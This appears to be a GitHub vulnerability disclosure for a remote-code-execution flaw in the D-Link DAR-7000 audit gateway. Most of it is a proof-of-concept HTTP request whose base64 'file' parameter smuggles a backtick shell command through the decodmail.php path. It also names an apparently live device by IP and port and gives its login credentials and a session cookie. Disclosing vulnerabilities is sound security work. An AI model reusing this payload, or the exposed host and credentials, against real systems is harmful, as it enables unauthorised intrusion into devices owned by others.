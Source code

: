 
The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/log/decodmail.php
https://60.22.74.195:8443
<img width="512" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/fca62efa-f811-4c70-b1b8-98ba3109373a">


Account password: test/ admin@123
poc：
```
GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA== HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=bdb1aa1392da0420192cff3c34e507d6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
<img width="515" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/1624c50c-8650-49d4-ae4b-da1eb77e7028">


